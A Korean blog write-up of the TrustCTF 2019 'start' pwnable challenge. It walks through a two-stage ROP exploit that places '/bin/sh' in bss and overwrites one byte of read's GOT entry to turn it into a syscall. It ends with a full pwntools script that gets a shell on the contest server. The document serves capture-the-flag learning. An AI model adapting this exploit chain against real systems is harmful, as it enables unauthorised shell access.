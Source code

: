 ```yaml
---
layout: post
title: ! "[TrustCTF 2019] start Write-up"
excerpt_separator: <!--more-->
comments : true
tags:
  - KRater
  - Write-up
  - CTF
---
```


TrustCTF에 나왔던 가장 쉬운 `pwnable` 문제였던 start 풀이.


<!--more-->

### 문제

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic01.PNG)

간단한 BOF문제인데 read 이후 프로그램이 끝나고, write는 주지도 않는다.

같은 팀원한테 물어봐서 바보소리 듣고 read 함수 안에있는 syscall 쓰라고 해서 풀었다 헤헤..

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic02.PNG)

ROP 하라고 대놓고 가젯폭탄도 던져준다.

버퍼사이즈 빡빡하긴 한데 이게 있어서 전부 구겨넣을 수 있다.

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic03.PNG)

주어진 libc에서 read 함수 안에있는 syscall 위치를 찾는다.

### Stage 1

```python
payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")
```

bss 영역에 `/bin/sh`를 써 넣는다.

그리고 다시 main 함수로 돌아간다.

### Stage 2

```python
payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")
```

그다음은 read got 영역을 1바이트만 쓴다. (syscall 주소, 0x7b)

이제 read가 syscall이 됬으니까 bss 영역에 쓴 `/bin/sh`를 활용해서 쉘을 따주면 된다 ^0^

### Exploit Code

```python
from pwn import *

HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")

payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")

#r.sendline("cat flag")

r.interactive()
```

쉬운 문제였지만 감을 잃지 않으려면 꾸준히 노력해야 한다는 것을 깨닫게 해 준 고마운 문제였다.
